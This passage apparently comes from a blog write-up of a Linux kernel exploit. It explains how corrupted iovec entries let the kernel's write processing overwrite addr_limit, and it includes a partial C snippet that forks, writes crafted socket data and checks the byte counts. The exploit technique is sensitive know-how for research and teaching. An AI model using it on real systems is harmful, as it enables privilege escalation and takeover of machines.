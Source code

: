 Now that we called `write()` the kernel will start processing all the valid iovecs, the first one is `iovec[10]`, this will just write a byte to the `mmap()`ed page, it's not important, we just do that because we have to process the next one after it has been corrupted by the unlink. Now we'll process `iovec[11]`, but if you remember we corrupted its `iov_base` with a pointer to `iovec[10].iov_len`, so it'll write 0x20 (since we set `iovec[11].iov_len` to 0x8 + 0x8 + 0x8 + 0x8) from `final_sock_data` to `iovec[10].iov_len`.

As result we're able to overwrite `iovec[12].iov_base` to an arbitrary address, in this case the address of `addr_limit`.

<img src="https://github.com/cutesmilee/cutesmilee.github.io/raw/main/images/iovec_processing_11.png" alt="iovec_processing_11" style="zoom:50%;" />

Now that the kernel finished processing `iovec[11]`, it'll start processing `iovec[12]`, but as I said we just overwrote its `iov_base` with the address of `addr_limit`, so it's gonna write `iov_len` (0x8) bytes from the remaining data from `final_sock_data` to `addr_limit`, in this case 0xFFFFFFFFFFFFFFFE!

We can easily check if all the writes have been done without issues just by checking the return value of `write()` and `recvmsg()`, if  `write()` returns the size of `final_sock_data`, and `recvmsg()` returns the sum of all the `iov_len` of the valid iovecs.

```c
pid_t child = fork();
if (!child) {
    [...]
    nBytesWritten = write(WRITE_SOCK, final_sock_data, sizeof(final_sock_data));

    /* ensures that the write has been correctly done */
    if (nBytesWritten != sizeof(final_sock_data)) {
        printf("\t[-] write() returned 0x%x instead of 0x%lx\n", nBytesWritten, sizeof(final_sock_data));
        exit(-1);
    }
    exit(0);
}
[...]
int expected_bytes_addr_limit = iovec[IOVEC_OVERLAP_INDEX].iov_len +
                                iovec[IOVEC_OVERLAP_INDEX + 1].iov_len +
                                iovec[IOVEC_OVERLAP_INDEX + 2].iov_len;

if(received_bytes_addr_limit != expected_bytes_addr_limit) {
```